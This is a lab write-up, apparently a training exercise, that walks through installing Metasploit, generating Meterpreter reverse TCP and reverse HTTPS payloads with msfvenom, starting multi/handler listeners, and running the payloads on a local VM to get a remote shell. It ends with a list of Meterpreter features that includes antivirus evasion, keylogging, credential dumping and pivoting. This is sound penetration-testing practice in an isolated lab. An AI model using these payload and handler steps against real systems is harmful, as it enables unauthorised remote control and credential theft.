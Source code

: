 
# Setting Up Metasploit to Handle the Payload

This guide explains how to configure Metasploit and handle a Meterpreter payload from a virtual machine.

---

## Install Metasploit

1. Download and install Metasploit:
   ```bash
   curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
   ```
2. I Made the installation script executable:
   ```bash
   chmod 755 msfinstall
   ```
3. Ran the installation script:
   ```bash
   ./msfinstall
   ```

---

## **Reverse TCP** 

### Start the Metasploit Console

I launched Metasploit from the command line:

```bash
msfconsole
```

1. I browsed through various meterpreters (which is a powerful and flexible payload in Metasploit that provides a shell for post-exploitation activities):
   ```msf6
   search meterpreter
   ```

2. I used the multi-handler module (a generic payload handler):
   ```msf6
   use exploit/multi/handler
   ```

3. I set the payload type:
   ```msf6
   set PAYLOAD linux/x86/meterpreter/reverse_tcp
   ```

4. I configured the host IP address and port:
   ```msf6
   set LHOST 192.168.56.1
   set LPORT 4444
   ```

5. I started the exploit in the background:
   ```msf6
   exploit -j
   ```
---

## Download and Run the Payload on the VM

On host I downloaded the payload 
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 -f elf -o meterpreter 
```
On virtual machine:
```bash
nc -lp 4444 > meterpreter
```

I then transferred the file to my VM
```bash
 nc 192.168.56.101 4444 < meterpreter 
 ```

I then made the payload executable and ran it:
1. ```bash
   chmod u+x meterpreter
   ```

2. I executed the payload:
   ```bash
   ./meterpreter
   ```

---

## Verify the Connection

I switched back to the Metasploit console on the host machine. 

```msf6
sessions -i 1
```
A new Meterpreter session appeared, which is the meterpreter shell that allows me to control the remote machine. 
```meterpreter
   ls
```

---


## **Reverse HTTPS** 


## Launched Metasploit from the command line using sudo (since I'm binding to port 443 which requires elevated privileges (ports in the 1-1024 range)):
```bash
sudo msfconsole
```
1. I used the multi-handler module:
   ```msf6
   use exploit/multi/handler
   ```

2. Set the payload type:
   ```msf6
   set PAYLOAD linux/x64/meterpreter_reverse_https
   ```

3. I configured the host IP address and port:
   ```msf6
   set LHOST 192.168.56.1
   set LPORT 443  
   ```

4. I started the exploit in the background:
   ```msf6
   exploit -j
   ```

---

## Generate the Payload

On the attacker machine, I generated the payload using `msfvenom`:

```bash
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=192.168.56.1 LPORT=443 -f elf -o reverse_https_payload.elf
```

---

## Run the Payload on the Target VM

1. I transferred the payload (`reverse_https_payload.elf`) to the VM.

2. On the VM, I made the payload executable:
   ```bash
   chmod u+x reverse_https_payload.elf
   ```

3. I executed the payload:
   ```bash
   ./reverse_https_payload.elf
   ```

---

## Verify the Connection

I switched back to the Metasploit console on the host machine. 
```msf6
sessions -i 1
```

A new Meterpreter session appeared, which is the meterpreter shell that allows me to control the remote machine. 
```meterpreter
   ls
```

---

# **Five Features of Meterpreter**

Meterpreter is a powerful and flexible payload within Metasploit. THese are five key features that make it a highly effective tool for penetration testing:

### 1. **In-Memory Execution**
   Meterpreter runs entirely in memory, meaning it doesn't write any data to disk. This helps in evading antivirus software and makes it more difficult for defenders to detect the payload on the target system. This in-memory execution allows for stealthier exploitation.

### 2. **Post-Exploitation Features**
   Meterpreter comes with a wide range of post-exploitation modules that allow an attacker to interact with the compromised system. These include:
   - **File System Access**: View and manipulate files on the target system.
   - **Keylogging**: Capture keystrokes entered by the user.
   - **Credential Dumping**: Extract stored passwords from the system.

### 3. **Pivoting**
   Meterpreter allows attackers to pivot to other systems within a network. Once a system is compromised, the attacker can use the compromised machine as a foothold to target additional machines. This is particularly useful in network exploitation when there are multiple machines connected to the same network.

### 4. **Dynamic Command Execution**
   Meterpreter supports the execution of commands dynamically on the compromised system. This allows for flexible exploitation and fast deployment of commands without needing to interact with the payload repeatedly. 

### 5. **Encrypted Communication**
   Communication between the attacker and the target system using Meterpreter is encrypted, which prevents eavesdropping on the session. This makes the attacker’s actions more difficult to detect and analyze by monitoring network traffic.

---

